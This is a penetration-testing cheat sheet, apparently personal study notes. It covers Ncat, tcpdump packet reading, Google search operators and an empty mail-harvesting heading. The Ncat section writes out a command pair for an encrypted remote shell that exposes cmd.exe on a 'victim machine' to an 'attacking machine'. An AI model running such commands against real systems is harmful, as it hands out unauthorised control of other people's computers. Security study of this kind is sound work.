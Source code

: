 # Essential Tools

## Ncat

Encrypted Reverse Shell
```console
on victim machine (Win):
ncat --exec cmd.exe --allow <IP> -vnl <PORT> --ssl

on attacking machine (Kali):
ncat -v <IP> <PORT> --ssl

```

## Tcpdump

Read PCAP file
```console
tcpdump -r <FILE.pcap>
```

Get IP addresses & ports involved
```console
tcpdump -n -r <FILE.pcap> | awk -F " " '{print $3}' | sort -u | head
```

Filter for source and destination IPs and ports
```console
tcpdump -n src host <IP> -r <FILE.pcap> 
tcpdump -n dst host <IP> -r <FILE.pcap> 
tcpdump -n port <PORT> -r <FILE.pcap>
```

View content of a packet
```console
tcpdump -nX -s 0 -r <FILE.pcap>
```

# Passive Information Gathering

## Google

```console
site:  
-site:  
filetype: 
intitle:  
inurl:
```
more info: https://www.exploit-db.com/google-hacking-database

## Mail Harvesting
